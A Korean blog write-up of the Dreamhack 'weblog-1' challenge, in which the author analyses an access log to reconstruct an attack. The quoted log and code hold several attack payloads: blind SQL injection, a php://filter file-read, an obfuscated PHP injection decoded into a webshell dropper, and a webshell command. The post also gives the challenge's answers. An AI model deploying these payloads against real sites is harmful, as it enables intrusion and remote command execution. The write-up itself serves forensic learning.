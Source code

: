 ```yaml
---
title: (28) Dreamhack weblog-1 문제 풀이
date: 2024-02-03 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명


## 문제 풀이
제공된 로그 파일을 분석해서 php로 구현된 문제 사이트에서 문제를 풀면 flag를 줍니다. 로그파일이 너무 길고, 소스코드는 거의 볼 필요가 없기 때문에 로그 파일은 일부분만, 그리고 필요한 소스코드만 올리도록 하겠습니다.  
  
그럼 첫번째 문제입니다.
![](https://kyuyeop.github.io/assets/img/post/28/1.png)
로그 파일을 보면
```
172.17.0.1 - - [02/Jun/2020:09:40:01 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(TABLE_NAME,0x3a,COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA=database()),%2030,1))=109,%20(select%201%20union%20select%202),%200) HTTP/1.1" 200 841 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:40:01 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(TABLE_NAME,0x3a,COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA=database()),%2030,1))=110,%20(select%201%20union%20select%202),%200) HTTP/1.1" 200 841 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:40:02 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(TABLE_NAME,0x3a,COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA=database()),%2030,1))=111,%20(select%201%20union%20select%202),%200) HTTP/1.1" 500 1192 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:40:02 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(TABLE_NAME,0x3a,COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA=database()),%2030,1))=112,%20(select%201%20union%20select%202),%200) HTTP/1.1" 200 841 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:40:02 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(TABLE_NAME,0x3a,COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA=database()),%2030,1))=113,%20(select%201%20union%20select%202),%200) HTTP/1.1" 200 841 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```
위와 같이 blind sql을 진행하고 있는게 보입니다. 맞으면 `500`, 틀리면 `200`에 해당하는 code를 돌려주나 봅니다. 뭘 하는지 궁금하니 숫자만 추출해서 문자로 바꿔보겠습니다. 저는 아래와 같은 코드를 짰습니다.
```python
import re

lines = []
with open('access.log', 'r') as f:
  lines = f.readlines()

lst = []
for line in lines:
  if 'HTTP/1.1" 500' in line:
    l = re.sub(',.*\n','',re.sub('^.*,1\)\)=','',line))
    if(len(l) <= 3):
      lst.append(int(l))

for i in lst:
  print(chr(i), end='')
```
실행 결과는 다음과 같습니다.
```
simple_boardboard:idx,board:title,board:contents,board:writer,users:idx,users:username,users:password,users:leveladmin:Th1s_1s_Adm1n_P@SS,guest:guest
```
로그가 너무 길어서 뭐가 뭐에 대한건지 알 순 없지만 누가 봐도 `admin:`이라는 글자가 보입니다.  
  
정답은 `Th1s_1s_Adm1n_P@SS`입니다.  
  
두번째 문제입니다.
![](https://kyuyeop.github.io/assets/img/post/28/2.png)
`/config.php`를 로그에서 검색해보면
```
172.17.0.1 - - [02/Jun/2020:09:08:51 +0000] "GET /admin/config.php HTTP/1.1" 404 488 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:08:53 +0000] "GET /config.php-eb HTTP/1.1" 404 453 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:08:55 +0000] "GET /painel/config/config.php.example HTTP/1.1" 404 489 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:08:53 +0000] "GET /config.php HTTP/1.1" 200 312 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:54:18 +0000] "GET /admin/?page=php://filter/convert.base64-encode/resource=../config.php HTTP/1.1" 200 986 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```
위와 같은 줄이 검색됩니다. 코드를 추출했다고 했으니 일반적인 접속은 아니였을 겁니다. 따라서 base64 인코딩을 이용한 페이로드인 `php://filter/convert.base64-encode/resource=../config.php`가 정답입니다.  
  
세번째 문제입니다.
![](https://kyuyeop.github.io/assets/img/post/28/3.png)
위의 줄에서 10줄 정도 아래로 내려보면
```
172.17.0.1 - - [02/Jun/2020:09:55:16 +0000] "GET /admin/?page=memo.php&memo=%3C?php%20function%20m($l,$T=0){$K=date(%27Y-m-d%27);$_=strlen($l);$__=strlen($K);for($i=0;$i%3C$_;$i%2b%2b){for($j=0;$j%3C$__;%20$j%2b%2b){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return%20$l;}%20m(%27bmha[tqp[gkjpajpw%27)(m(%27%2brev%2bsss%2blpih%2bqthke`w%2bmiecaw*tlt%27),m(%278;tlt$lae`av,%26LPPT%2b5*5$040$Jkp$Bkqj`%26-?w}wpai,%20[CAP_%26g%26Y-?%27));%20?%3E HTTP/1.1" 200 1098 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:55:39 +0000] "GET /admin/?page=/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732 HTTP/1.1" 200 735 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```
이런 내용이 있습니다. memo페이지를 이용해 난독화되어 보이는 php 코드를 삽입하고 있습니다. 그럼 memo.php를 안 볼 수가 없죠.
```php
<a href="javascript:history.back(-1);">Back</a><br/><br/>
<?php
  if($level[$_SESSION['level']] !== "admin") { die("Only Admin !"); }

  if(isset($_GET['memo'])){
    $_SESSION['memo'] = $_GET['memo'];
  }

  if(isset($_SESSION['memo'])){
    echo($_SESSION['memo']);
  }

?>

<form>
  <input type="hidden" name="page" value="memo.php">
  <div class="form-group">
    <label for="memo">memo</label>
    <input type="text" class="form-control" name="memo" id="memo" placeholder="memo">
  </div>
  <button type="submit" class="btn btn-default">Write</button>
</form>
```
memo 파라미터로 온 값을 그냥 `$_SESSION[memo]`에 저장하네요. 세션에 대한 정보는 지정한 폴더에 `sess_세션아이디`이름의 파일로 저장됩니다. 따라서 바로 다음줄에서 사용하고 있는 `/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732`가 정답 되겠습니다.  
  
다음 문제입니다.
![](https://kyuyeop.github.io/assets/img/post/28/4.png)
여긴 살짝 복잡합니다. 일단 위에서 봤던 로그를 다시 봅시다.  
```
172.17.0.1 - - [02/Jun/2020:09:55:16 +0000] "GET /admin/?page=memo.php&memo=%3C?php%20function%20m($l,$T=0){$K=date(%27Y-m-d%27);$_=strlen($l);$__=strlen($K);for($i=0;$i%3C$_;$i%2b%2b){for($j=0;$j%3C$__;%20$j%2b%2b){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return%20$l;}%20m(%27bmha[tqp[gkjpajpw%27)(m(%27%2brev%2bsss%2blpih%2bqthke`w%2bmiecaw*tlt%27),m(%278;tlt$lae`av,%26LPPT%2b5*5$040$Jkp$Bkqj`%26-?w}wpai,%20[CAP_%26g%26Y-?%27));%20?%3E HTTP/1.1" 200 1098 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```
`memo=`의 뒷부분만 [URL 디코딩 사이트](https://www.convertstring.com/ko/EncodeDecode/UrlDecode)를 이용해서 살펴보면
```php
<?php function m($l,$T=0){$K=date('Y-m-d');$_=strlen($l);$__=strlen($K);for($i=0;$i<$_;$i++){for($j=0;$j<$__; $j++){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return $l;} m('bmha[tqp[gkjpajpw')(m('+rev+sss+lpih+qthke`w+miecaw*tlt'),m('8;tlt$lae`av,&LPPT+5*5$040$Jkp$Bkqj`&-?w}wpai, [CAP_&g&Y-?')); ?>
```
 되고, 이걸 보기 좋게 정렬하면
```php
<?php
function m($l,$T=0) {
  $K=date('Y-m-d');
  $_=strlen($l);
  $__=strlen($K);
  for($i=0;$i<$_;$i++) {
    for($j=0;$j<$__; $j++) {
      if($T) {
        $l[$i]=$K[$j]^$l[$i];
      } else {
        $l[$i]=$l[$i]^$K[$j];
      }
    }
  }
  return $l;
}
m('bmha[tqp[gkjpajpw')
(m('+rev+sss+lpih+qthke`w+miecaw*tlt'),m('8;tlt$lae`av,&LPPT+5*5$040$Jkp$Bkqj`&-?w}wpai, [CAP_&g&Y-?'));
?>
```
입니다. 저 m 부분만 echo로 해서 출력해보면
```
ghmd^qtu^bnoudour.w`s.vvv.iulm.tqmn`er.hl`fdr/qiq=>qiq!id`eds)#IUUQ.0/0!515!Onu!Gntoe#(:rxrudl)%^FDUZ#b#\(:
```
이런 이상한 문자열이 나옵니다. 이유는 `date`는 현재시간을 반환하기 때문에 서버가 이를 실행한 시간으로 맞춰줘야 하는 겁니다. 로그에 찍혀있는 날짜를 `date`함수 대신 `Y-m-d`형태의 값을 넣어줘야 합니다. `'2020-06-02'`를 넣어주면 
```
file_put_contents/var/www/html/uploads/images.php<?php header("HTTP/1.1 404 Not Found");system($_GET["c"]);
```
가 나옵니다. `m('+rev+sss+lpih+qthke``w+miecaw*tlt')`의 값을 보면 `/var/www/html/uploads/images.php`으로 이게 이번 문제의 정답입니다.  

드디어 마지막 문제입니다.    
![](https://kyuyeop.github.io/assets/img/post/28/5.png)
위에서 만든 웹쉘을 썼다고 했으니 images.php 를 검색해봅니다.
```
172.17.0.1 - - [02/Jun/2020:09:56:32 +0000] "GET /uploads/images.php?c=whoami HTTP/1.1" 404 490 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```
`c`파라미터로 `whoami`를 넣었네요. 이게 마지막 문제의 정답입니다.  
  
![](https://kyuyeop.github.io/assets/img/post/28/6.png)
드디어 문제가 끝났습니다. flag를 출력해주네요.
{% endraw %}